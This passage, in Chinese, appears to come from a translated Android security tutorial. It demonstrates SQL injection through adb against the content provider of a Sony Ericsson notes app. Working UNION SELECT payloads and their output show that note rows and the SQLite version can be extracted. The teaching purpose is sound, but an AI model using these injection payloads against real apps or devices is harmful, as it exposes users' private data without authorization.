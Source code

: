 ```

这个命令是如何工作的？

首先，看看我们得到的错误，有一个括号被打开，我们的单引号在关闭它之前导致了一个错误。您可以在下面看到它：

```
WHERE (_id=1')

```

因此，我们首先关闭括号，然后编写`select`查询，最后在查询后注释掉所有内容。现在，上述`where`条款将变为以下内容：

```
WHERE (_id=1) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14—

```

之后，从 1 到 14 的列应与现有 SELECT 语句中的列数匹配。当我们使用 SELECT 语句编写 UNION 时，两个语句中的列数应该相同。因此，前面的查询将在语法上与现有查询匹配，并且不会出现任何错误。

运行上一个命令将导致以下结果：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=5, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

前面的输出显示了两个 SQL 查询的结果，显示了响应中的所有 14 个数字。

### 运行数据库功能

通过稍微修改前面的 SQL 查询，我们可以提取更多信息，如数据库版本、表名和其他有趣的信息。

### 查找 SQLite 版本：

运行`sqlite_version()`功能显示 SQLite 版本信息，如下图所示：

![Finding out SQLite version:](../Images/image01459.jpeg)

我们可以在查询中使用此函数，通过易受攻击的应用程序查找 SQLite 版本。以下命令显示了如何执行此操作：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,sqlite_version(),6,7,8,9,10,11,12,13,14-- ("

